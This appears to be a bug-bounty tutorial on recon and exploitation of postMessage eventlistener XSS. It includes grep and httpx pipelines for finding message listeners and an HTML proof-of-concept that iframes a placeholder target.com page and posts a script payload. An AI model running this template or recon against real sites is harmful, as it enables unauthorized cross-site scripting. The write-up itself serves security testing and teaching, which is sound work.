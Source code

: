 There are many posts on how to use eventlistener for XSS already, but not so many on how to find them with recon and tools.

I suggest reading writeups on eventlistener XSS before getting into this, since im skipping the technical parts to focus on methodology.

<h1>Recon</h1>
Initially, I look for this regex in all the included js with this regex:

`cat hosts | getJS | grep target.com | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"`

`grep target.com` will narrow the results to not include public static CDN servers. These are maintained and hard to exploit.
However if the target have their own private content delivery on e.g. static.target.com it may not be as well maintained and hold
vulnerable thirdparty js files. This is mainly what I look for when checking these results.

And of course attached eventlisteners can also exist in script tags on normal pages:

`cat hosts | hakrawler -plain | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"`

<h1>Method</h1>
With these results, we can start checking the pages. I mainly use https://github.com/fransr/postMessage-tracker on chrome to sift through pages. It tells where the scripts come from in the top corner and prints all transfering messages in the console. 

Burp also comes with a similar function in their embedded browser(Dom Invader).

If a message is sent that looks "home made" or occurs during a sensitive flow in the application, I take a look at it.

<h1>Exploitation</h1>
Tomnomnom brings up some valuable tips on how to work on postmessage XSS on STÖKs channel: https://www.youtube.com/watch?v=FTeE3OrTNoA

Some key take aways is how valuable the chrome debugger is, open your console -> go to the sources tab -> Global Listeners -> message. That's all the registered
message eventlisteners on the page. 

Put a breakpoint at the listener and shoot `window.postMessage('test', '*')` in your console and see where it goes from the breakpoint. The fun sport is to try to please the if()'s and regexes until it hits a sink or similar.

If the window.postMessage() pops from your console, and the origin isn't properly checked(The boring part that prevents exploitability many times), make a post on
https://repl.it like Tomnomnom suggests, with the following template code:

```
<!DOCTYPE html>
<html> 
 <head>
   <script>
var target = document.getElementById('target')

target.addEventListener('load', () => {

target.contentWindow.postMessage({
    "type": "redacted",
    "data": "<script>alert(document.domain)</script>"}, '*')
})
target.src = "https://test.target.com/search?q=yavolo"
   </script>
 <meta charset="utf-8">    
 <meta name="viewport" content="width=device-width">   
  </head>
    <body>  
       <iframe id=target></iframe>  
    </body>
</html>
```

If you see the target domain and not repl.it in the alert prompt, its bounty time. Just paste your `repl.it` link in your Hackerone report.



<h1>Practice</h1>
Try it out here:

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/eval

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/innerHtml

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/documentWrite

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/complexMessageDocumentWriteEval

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/improperOriginValidationWithPartialStringComparison

https://public-firing-range.appspot.com/dom/toxicdom/postMessage/improperOriginValidationWithRegExp


Twitter:
@oliverrickfors
